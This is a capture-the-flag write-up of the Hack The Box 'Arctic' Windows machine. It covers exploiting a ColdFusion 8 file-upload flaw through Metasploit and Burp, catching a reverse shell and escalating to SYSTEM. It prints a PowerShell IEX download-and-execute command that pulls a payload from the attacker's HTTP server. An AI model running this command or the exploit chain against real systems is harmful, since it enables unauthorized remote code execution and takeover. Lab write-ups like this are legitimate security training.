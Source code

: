 ```yaml
---
layout: default
title:  "HTB Arctic Box Write-Up"
date:   2019-01-09
categories: jekyll update post writeup htb
---
```


# Arctic Box Write-Up
### Author: Luke DuCharme (@_nTr0py)
### Date Completed: 08 January 2019
### Difficulty: Easy
### IP: 10.10.10.11
### OS: Windows

### Enumeration with Nmap:
![nmap](/img/arctic/nmap.png)
* -sV : enumerate versions
* -sC : run safe scripts
* -Pn : skip host discovery

* Port 8500 is the default port for Adobe Cold Fusion.

![coldfusion page](/img/arctic/coldfusion.png)
* When navigating to port 8500 on a web browser, there is an interesting page in the /CFIDE/administrator directory. They are running Coldfusion v8. 

### Exploitation:
![exploit search](/img/arctic/exploit_search.png)
* Use searchsploit to locate possible exploits.
* There's a Metasploit module for an arbitrary file upload exploit.

![msfconsole1](/img/arctic/msfconsole1.png)
* Pull up the Metasploit Framework, and do a search for coldfusion.
* Use the module found in searchsploit.
* Set rhost to 10.10.10.11 and rport to 8500. 
* Exploit.

![msfconsole2](/img/arctic/msfconsole2.png)
* The exploit failed because of the server's long response time, so there is a little extra work to be done. 

![burpsuite1](/img/arctic/burp1.png)
* Open up Burpsuite and navigate to the proxy options tab.

![burpsuite2](/img/arctic/burp2.png)
* Add a listener for port 8500 and loop back only option to redirect to 10.10.10.11 and port 8500.

![test](/img/arctic/test.png)
* Browse to localhost:8500 to test the listener in a web browser. If intercept is on in Burp, make sure to forward the request.

* Go back to Metasploit and set rhost to 127.0.0.1 and exploit (Make sure intercept is on in Burp).

* Go to Burp and copy the POST request on the Proxy/intercept tab to the repeater tab on the request side.
* Drop the POST request from the Proxy/intercept tab.

![repeater](/img/arctic/repeater.png)
* Hit go on the Repeater tab and send it to 10.10.10.11 port 8500.
* There should be a 200 reponse in the response section along with the directory it uploaded the payload to. 

![listener](/img/arctic/listener.png)
* Start a ncat listener on port 4444 to catch the shell the callback the payload will generate. 
** l : listen
** n : no DNS
** v : verbose output
** p : port

![navigate](/img/arctic/navigate.png)
* Navigate to the payload page whose directory was shown in the Burp Repeater/response page.

![shell](/img/arctic/shell.png)
* There's a shell! 
* If something isn't working, make sure Burp isn't intercepting. 

### Upgrade Shell to Meterpreter with Unicorn (https://github.com/trustedsec/unicorn):
![unicorn](/img/arctic/unicorn.png)
* Follow the above syntax substituting Unicorn's directory and the IP of the attack box and a random high port. 

![restart](/img/arctic/restart.png) 
* Restart the Metasploit Framework using the options generated by Unicorn.
* cat the powershell_attack.txt file that Unicorn generated and copy it to the clipboard (make sure to avoid any extra spaces at the end or beginning).
* Use vi to create exploit.html and paste the powershell into it.
* Start a simple HTTP server on the attack machine using python in the directory where exploit.html is located (python -m SimpleHTTPServer).

![download](/img/arctic/download.png)
* In the shell on the target machine, run the following command in powershell to download and run the shellcode:
** powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/exploit.html')"
*** make sure to use the IP of the attack station and shellcode filename in the URL.
** There should be a GET request on your HTTP server in a few seconds.
* Switch to your Metasploit console, and it should indicate it's sending the encoded stager. If it sits for awhile, you can hit enter and use the sessions command to make sure your session was generated (to interact with it use 'sessions -i <session #>).
* Now we have a user level Meterpreter shell!

### Privesc
![suggester1](/img/arctic/suggester1.png)
* Use the local exploit suggester to check for any possible local privesc exploits. 

![suggester2](/img/arctic/suggester2.png)
* Since Meterpreter is currently running as a 32 bit process, you need to migrate to a 64 bit process, run the suggester again, and then use the exploit which works for 32 and 64 bit. 
** Interact with the Meterpreter session, list the processes with 'ps', migrate to a stable x64 process with 'migrate <PID>'.
* Follow the previous steps to run the suggester again.

![suggester_both](/img/arctic/suggester_both.png)
* ms10_092_schelevator is the only exploit which works on 32 and 64 bit, so use that one.
* Use ms10_092_schelevator and set the session to your Meterpreter session number.
* Throw the 'sploit!
** If it doesn't generate the session, check and make sure it starts the listener on your VPN IP and not your attack station's local IP. If it did, simply set lhost to your VPN IP. 

### Datamining:
![system](/img/arctic/system.png)
* Use the SYSTEM Meterpreter session to get the user and root flags.




